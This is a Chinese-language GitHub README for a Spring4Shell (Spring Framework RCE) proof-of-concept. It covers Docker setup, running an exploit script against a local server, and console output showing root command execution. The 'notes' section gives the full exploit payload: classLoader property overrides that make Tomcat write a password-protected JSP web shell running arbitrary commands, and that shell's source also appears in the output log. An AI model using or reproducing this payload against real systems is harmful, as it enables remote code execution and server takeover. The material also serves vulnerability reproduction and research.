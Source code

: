 # Spring4Shell-POC

Spring4Shell 漏洞本地复现过程

## 环境准备
* 环境 docker、docker-compose

* mvn 打包，生成  ``./target/ROOT.war`` 
```shell
mvn package
```
* 启动服务
```shell
docker-compose up -d
```

* 关闭服务
```shell
docker-compose down 
```

## 复现过程

* 运行脚本 
```shell
python3 spring-4-shell-exp.py --url "http://127.0.0.1:8080"
```

* 第一次运行

![第一次运行](./screenshots/spring-4-shell-1.png)  

* 第二次运行 


![第二次运行](./screenshots/spring-4-shell-2.png)  

* 执行过程 


```
➜  spring4shell-poc clear             
➜  spring4shell-poc python3 spring-4-shell-exp.py --url "http://127.0.0.1:8080"
The vulnerability exists, the shell address is :http://127.0.0.1:8080/tomcatwar.jsp?pwd=j&cmd=whoami
got response: 
➜  spring4shell-poc clear
➜  spring4shell-poc python3 spring-4-shell-exp.py --url "http://127.0.0.1:8080"
The vulnerability exists, the shell address is :http://127.0.0.1:8080/tomcatwar.jsp?pwd=j&cmd=whoami
got response: root

//
- if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = -.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } -

➜  spring4shell-poc 

``` 

* docker容器中可以看到在tomcat应用服务中创建了一个jsp文件

![spring-4-shell-web](./screenshots/spring-4-shell-docker.png)


* web也可以直接访问

![spring-4-shell-web](./screenshots/spring-4-shell-web.png)


## 注意点

* spring-4-shell-exp.py 中data的数据
```text
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{c2}i 
if ("j".equals(request.getParameter("pwd"))) {
    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
    int a = -1;
    byte[] b = new byte[2048];
    while ((a = in .read(b)) != -1) {
        out.println(new String(b));
    }
}
%{suffix}i
class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp
class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT
class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar
class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
``` 


### 参考 

* https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities
* https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement
* https://github.com/liudonghua123/spring-core-rce
